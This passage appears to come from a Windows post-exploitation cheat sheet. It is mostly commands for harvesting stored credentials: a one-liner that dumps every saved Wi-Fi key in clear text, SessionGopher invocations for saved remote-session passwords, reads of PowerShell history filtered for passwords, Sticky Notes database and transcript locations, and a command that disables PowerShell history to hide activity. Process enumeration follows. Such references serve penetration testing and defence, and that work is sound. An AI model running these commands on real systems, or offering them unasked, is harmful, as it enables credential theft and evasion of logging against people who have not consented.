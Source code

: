 Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Sticky Notes passwords

The sticky notes app stores it's content in a sqlite db located at `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)


```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### Powershell History

Disable Powershell history: `Set-PSReadlineOption -HistorySaveStyle SaveNothing`.

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

### Powershell Transcript

```xml
C:\Users\<USERNAME>\Documents\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
C:\Transcripts\<DATE>\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
```

### Password in Alternate Data Stream

```ps1
PS > Get-Item -path flag.txt -Stream *
PS > Get-Content -path flag.txt -Stream Flag
```

## EoP - Processes Enumeration and Tasks

* What processes are running?
    ```powershell
    tasklist /v
    net start
    sc query
    Get-Service
    Get-Process
    Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
    ```
